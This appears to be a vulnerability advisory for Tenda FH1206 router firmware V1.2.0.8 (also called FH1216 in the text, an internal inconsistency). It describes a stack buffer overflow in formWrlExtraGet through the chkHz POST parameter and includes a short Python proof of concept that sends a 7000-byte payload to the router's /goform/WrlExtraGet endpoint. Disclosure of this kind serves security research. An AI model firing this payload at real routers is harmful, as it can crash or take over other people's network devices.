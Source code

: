 

# formWrlExtraGet

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **formWrlExtraGet** function. The function receives the `chkHz` parameter from a POST request. ` strcat(v60, src);` The statement will cause a buffer overflow. The `chkHz` value provided by the user may exceed the capacity of the `v60` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/8c03a7ba-e77f-47b4-ab99-1a2cbaecb2d9)



## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WrlExtraGet"
payload = b"a"*7000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/fb737163-3458-4e23-bf14-cf7e794c1f54)
